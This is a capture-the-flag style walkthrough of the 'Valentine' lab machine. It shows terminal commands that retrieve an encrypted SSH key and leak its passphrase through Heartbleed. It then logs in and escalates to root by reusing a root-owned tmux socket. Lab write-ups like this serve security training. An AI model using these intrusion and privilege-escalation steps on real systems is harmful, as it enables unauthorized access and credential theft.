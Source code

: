 In the /dev folder we found a encoded file (hexadecimal) which once decoded gives us a ssh encrypted key file

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Valentine-10.10.10.79]
└─$ wget http://10.10.10.79/dev/hype_key
```

Now decode it

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Valentine-10.10.10.79]
└─$ cat hype_key | xxd -r -p > hype_key_encrypted

┌──(kali㉿kali)-[~/Documents/Boxes/Valentine-10.10.10.79]
└─$ cat hype_key_encrypted 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

To decrypt it we need a pass phrase that we don't have so lets dig more in the webapp. Running nmap script vuln (`--script vuln`) we found that the webapp is vulnerable to Heartbleed (CVE-2014-0160) so we use **[this exploit](https://gist.github.com/eelsivart/10174134)** and retrieve the base64 encoded pass `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` which once decoded gives us the pass `heartbleedbelievethehype`

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Valentine-10.10.10.79]
└─$ openssl rsa -in hype_key_encrypted -out hype_key_decrypted
Enter pass phrase for hype_key_encrypted: heartbleedbelievethehype
writing RSA key

┌──(kali㉿kali)-[~/Documents/Boxes/Valentine-10.10.10.79]
└─$ ssh -i hype_key_decrypted hype@10.10.10.79                           
Enter passphrase for key 'id_rsa': 
sign_and_send_pubkey: no mutual signature supported
hype@10.10.10.79s password: 
Permission denied, please try again.
```

We are getting the error 'no mutual signature supported', which after some google we find that we can avoid running ssh with the flag `-oPubkeyAcceptedAlgorithms=+ssh-rsa`

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Valentine-10.10.10.79]
└─$ ssh -oPubkeyAcceptedAlgorithms=+ssh-rsa -i hype_key_decrypted hype@10.10.10.79
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ whoami
hype
```

And we are in. Checking with pspy64 we found that the user root executes the command `/usr/bin/tmux -S /.devs/dev_sess` and after some searching we found that we can escalate privileges executing the same command with our user to spawn a root shell

```bash
hype@Valentine:~$ /usr/bin/tmux -S /.devs/dev_sess

root@Valentine:/home/hype# whoami
root
```

And we are root
